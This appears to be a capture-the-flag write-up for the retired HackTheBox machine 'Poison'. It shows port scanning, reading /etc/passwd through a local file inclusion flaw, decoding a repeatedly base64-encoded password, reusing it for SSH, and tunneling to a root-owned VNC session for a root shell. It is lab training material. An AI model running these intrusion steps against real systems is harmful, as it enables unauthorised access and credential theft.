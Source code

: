 # Poison

This is the write-up for the box Poison that got retired at the 8th September 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.84    poison.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/poison.nmap 10.10.10.84
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Checking HTTP (Port 80)

On the web page there is an application where it is possible to test local PHP files:

![Web page](https://kyuu-ji.github.io/htb-write-up/poison/poison_web-1.png)

So lets test the given PHP files and the _/listfiles.php_ seems to list files in the working directory:

```markdown
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )
```

The file _pwdbackup.txt_ can be accessed and has the following content:
```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

It is a Base64-encoded string, so lets decode it 13 times:
```markdown
cat pwdbackup.b64 | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```

The result is:
> Charix!2#4%6&8(0

In the web application it is possible to submit any file from the server as it is vulnerable to **Local File Inclusion** and when submitting _/etc/passwd_, it shows the contents of it and there is one user called _charix_.

Lets try the password on SSH:
```markdown
ssh charix@10.10.10.84
```

This works and we are logged in as the user _charix_.

## Privilege Escalation

In the home directory of _charix_ is a file called _secret.zip_.
Unzipping it:
```markdown
unzip secret.zip
```

It needs a password but using the same from before works and extracts a file called _secret_ that has some Non-ISO unreadable characters as content.
Maybe this is needed for something else, so lets enumerate the box manually to get more information:

Looking at the processes:
```markdown
ps aux
```

An unusual process is that **VNC** is running as root.
```markdown
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rf
```

Looking at the listening connections:
```markdown
netstat -an | grep LIST
```
```markdown
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

It seems that **VNC** is running on port 5801 and 5901.
We will establish a SSH tunnel through these ports:
```markdown
ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@10.10.10.84
```

This results in a dynamic port forwarding that listens on localhost on port 1080 going through SSH.
We can now browse to http[:]//127.0.0.1:6901 and it shows a string that validates that the port forwarding is working:
```markdown
RFB 003.008
```

Now we can use **vncviewer** to connect to the server:
```markdown
vncviewer 127.0.0.1::6901
```

It wants a password and the only thing we got, is the _secret_ file that could be the key for this connection.
Lets pass the file as the password:
```markdown
vncviewer -passwd secret 127.0.0.1:6901
```

This opens the **TightVNC** program and the VNC connection is a root shell!
